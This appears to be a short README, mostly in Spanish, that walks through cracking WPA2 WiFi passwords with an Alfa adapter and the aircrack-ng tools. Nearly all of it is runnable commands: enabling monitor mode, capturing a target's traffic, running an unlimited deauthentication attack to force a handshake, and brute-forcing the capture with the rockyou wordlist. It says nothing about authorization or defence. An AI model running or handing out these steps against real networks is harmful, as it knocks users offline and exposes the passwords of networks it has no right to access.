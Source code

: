 # Alfa AWUS036AC
    
   Cracking WPA2


### WiFi Passwords

  ![]()
  
## Requisitos

Antes de nada, deberíamos de instalar los drivers necesarios de la antena ya que sin ellos no podremos usar el modo monitor.
En este caso he usado el diccionario Rockyou que viene preinstalado en kali linux.


  ![](Alfa-AWUS036AC.png)

# How To



## Comandos Utilizados:
    
   Ver versión del sistema:
        
       cat /etc/os-release
       
       uname -a
   
   Ver interfaces:
   
       iwconfig
   
   Matar procesos:
    
       sudo airmon-ng check kill

   Iniciar modo monitor:
   
       sudo airmon-ng start wlan0
       
   Verificar que modo está en uso:
   
       sudo airmon-ng
       iwconfig
   
   Obtener dirección MAC y el canal del AP:
   
       sudo airodump-ng wlan0
       sudo airodump-ng -w hack1 -c 2 --bssid 00:00:00:00:00:00 wlan0 
    
   2nd Window - deauth attack:
   
       sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 wlan0
   
   Abrir Wireshark para analizar el archivo capturado:
   
       wireshark hack1-01.cap
   
   Filtro de mensajes usado en wireshark:
   
       eapol
   
   Stop modo monitor:
   
       airmon-ng stop wlan0

   Cambiar canal:
   
       sudo airmon-ng wlan0 channel X

   Fuerza bruta:
   
       sudo aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt


![](Imagen1.png)

